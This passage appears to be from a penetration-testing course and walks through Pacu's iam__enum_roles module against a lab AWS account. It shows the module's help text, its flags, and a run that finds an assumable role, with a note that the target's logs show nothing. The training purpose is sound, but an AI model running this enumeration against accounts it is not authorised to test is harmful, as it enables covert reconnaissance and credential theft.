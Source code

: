 > Listing 44 - Listing Modules in pacu

To display information about the module, we need to add the **help** command following the name of the module. Let's learn more about the _iam__enum_roles_ module.

```
Pacu (offseclab:imported-attacker) > help iam__enum_roles

iam__enum_roles written by Spencer Gietzen of Rhino Security Labs.

usage: pacu [--word-list WORD_LIST] [--role-name ROLE_NAME] --account-id
            ACCOUNT_ID

This module takes in a valid AWS account ID and tries to enumerate existing
IAM roles within that account. It does so by trying to update the
AssumeRole policy document of the role that you pass into --role-name if
passed or newlycreated role. For your safety, it updates the policy with an
explicit deny against the AWS account/IAM role, so that no security holes
are opened in your account during enumeration. NOTE: It is recommended to
use personal AWS access keys for this script, as it will spam CloudTrail
with "iam:UpdateAssumeRolePolicy" logs and a few "sts:AssumeRole" logs. The
target account will not see anything in their logs though, unless you find
a misconfigured role that allows you to assume it. The keys used must have
the iam:UpdateAssumeRolePolicy permission on the role that you pass into
--role-name to be able to identify a valid IAM role and the sts:AssumeRole
permission to try and request credentials for any enumerated roles.
...
```

> Listing 45 - Displaying Information About iam__enum_roles Module in pacu

The output returned more information about the module, including usage instructions and details of the arguments that we can send.

The **--account-id** is a required flag that specifies the target's _AccountID_ where we'll enumerate the roles.

The **--word-list** flag let us specifies the wordlist of roles to try. We'll use the list that we already created in **/tmp/role-names.txt**.

This module requires an existing role in the _attacker_'s account. If we don't specify a role, the tool will create a temporary role (assuming that the credentials in the _attacker_ account have the permissions to run that action). We'll let the tool create a role for us, therefore we won't use the **--role-name** flag.

We can use a module with the **run** command, followed by the name of the module and any other argument that we need to pass.

```
Pacu (offseclab:imported-attacker) > run iam__enum_roles --word-list /tmp/role-names.txt --account-id 123456789012
  Running module iam__enum_roles...
...

[iam__enum_roles] Targeting account ID: 123456789012

[iam__enum_roles] Starting role enumeration...


[iam__enum_roles]   Found role: arn:aws:iam::123456789012:role/lab_admin

[iam__enum_roles] Found 1 role(s):

[iam__enum_roles]     arn:aws:iam::123456789012:role/lab_admin

[iam__enum_roles] Checking to see if any of these roles can be assumed for temporary credentials...

```